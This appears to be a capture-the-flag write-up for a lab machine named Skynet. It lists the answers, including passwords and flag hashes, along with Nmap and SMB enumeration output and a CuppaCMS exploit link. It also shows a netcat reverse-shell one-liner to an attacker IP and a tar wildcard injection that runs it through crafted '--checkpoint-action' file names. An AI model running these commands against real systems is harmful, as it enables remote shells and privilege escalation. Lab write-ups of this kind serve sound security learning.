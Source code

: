 # Skynet
##### Question 1: What is Miles password for his emails?
Answer
```bash
cyborg007haloterminator
```

##### Question 2: What is the hidden directory?
Answer
```bash
/45kra24zxs28v3yd
```

##### Question 3: What is the vulnerability called when you can include a remote file for malicious purposes?
Answer
```bash
Remote File Inclusion
```

##### Question 4: User Flag
Answer
```bash
7ce5c2109a40f958099283600a9ae807
```

##### Question 5: Root Flag
Answer
```bash
3f0372db24753accc7179a282cd6a949
```

- - - - - - - - - - - -  - - - - - - - - - - - - - - - - - - - - - 

Nmap Scan:
```bash

Nmap scan report for 10.10.103.131
Host is up (0.11s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES UIDL TOP SASL AUTH-RESP-CODE CAPA PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more ENABLE have IMAP4rev1 listed ID capabilities post-login Pre-login OK LITERAL+ LOGINDISABLEDA0001 LOGIN-REFERRALS IDLE SASL-IR
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 1h59m59s, deviation: 3h27m51s, median: -1s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)                       
|   Computer name: skynet                  
|   NetBIOS computer name: SKYNET\x00                      
|   Domain name: \x00                           
|   FQDN: skynet                        
|_  System time: 2021-12-19T13:00:35-06:00          
| smb-security-mode:       
|   account_used: guest                                                 
|   authentication_level: user                                                     
|   challenge_response: supported                                                 
|_  message_signing: disabled (dangerous, but default)                             
| smb2-security-mode:                                                 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-12-19T19:00:35
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   35.27 ms  10.6.0.1
2   ... 3
4   104.85 ms 10.10.103.131

```

SMBClient Shows:
```bash

root@kali:~# smbclient -L \\\\10.10.103.131\\
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

In anonymous/logs/log1.txt - Password lists

Password from emails:
```bash
)s{A&2Z=F^n_E.B`
```
SMB gives a CMS in /45kra24zxs28v3yd

CuppaCMS exploit: https://www.exploit-db.com/exploits/25971

python -c 'import pty; pty.spawn("/bin/bash")'

Priv Esc:
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.32.32 1221 >/tmp/f' > shell.sh

touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"

touch "/var/www/html/--checkpoint=1"

```

Due to wildcard in the backup.sh file we can run commands via the above way
```bash
www-data@skynet:/$ cat /home/milesdyson/backups/backup.sh 
cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```